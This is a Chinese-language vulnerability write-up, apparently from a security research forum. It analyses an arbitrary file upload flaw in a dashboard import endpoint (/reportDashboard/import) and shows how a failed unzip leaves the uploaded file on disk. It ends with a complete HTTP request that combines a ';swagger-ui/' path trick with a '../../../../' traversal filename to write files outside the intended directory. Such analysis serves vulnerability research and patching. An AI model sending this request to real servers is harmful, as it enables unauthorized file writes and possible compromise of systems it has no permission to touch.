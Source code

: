 已知：`/reportDashboard @PostMapping("/import/{reportCode}") In the interface of importing the big screen, it accepts file uploads, does not limit the file suffix, and does not detect, filter and sterilize the file name, resulting in Arbitrary file upload vulnerability`

大概就是`/import/{reportCode}`存在任意文件上传漏洞

全局搜索一下这个接口，是一个导入zip压缩包的地方，核心是`importDashboard`

![image-20241022200628735](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-bdb8abdf93acb9892cb377a5d8bca42df6ddf834.png)

跟进importDashboard方法

![image-20241022201121206](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-9b82c95a4c850e8873735a5ffbf272d1addefa8d.png)

先用这个接口随便正常随便传个看看怎么个走法，经过测试这个接口就是导入功能，在这里

![image-20241022215916512](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-b2dfb28b048cc20334afecb95b4799fd0a098fa7.png)

调试发现是生成一个临时文件夹，然后把压缩包传到这个文件夹里面

![image-20241022215415501](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-7c4f5ed4efd1b0f26a19d6024b5ec186053386fd.png)

然后解压，解压完删除，解压失败的话就报错

![image-20241022215502520](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-7c76691dec8e87208ddbb8ff410e85ad633dd9bb.png)

但是因为解压失败了，所以也没有执行删除，导致这个文件被留盘了

![image-20241022215541120](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-e29210cebc2fb9008397f4e0a99cf2aa7e7523d3.png)

如果有目录遍历的话就可以把文件传到我们想要的目录，回头看这里获取了文件名并且进行了拼接，而且原来拼接的路径里就有`.\`

![image-20241022215759933](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-70195e032e3c7e456676352a94795731bc3b0845.png)

试一下，成功穿越目录上传

![image-20241022220229307](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-7c62007fdc4584773dff9072a1f1dd2af091e3e8.png)

![image-20241022220412506](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-9a92e2dca9a093ce607f79930b892a39b93413ca.png)

```http
POST /reportDashboard/import/123;swagger-ui/ HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 197
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7hFWIxGnbfxoTaDz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary7hFWIxGnbfxoTaDz
Content-Disposition: form-data; name="file"; filename="../../../../flag.txt"
Content-Type: application/zip

test123
------WebKitFormBoundary7hFWIxGnbfxoTaDz--
```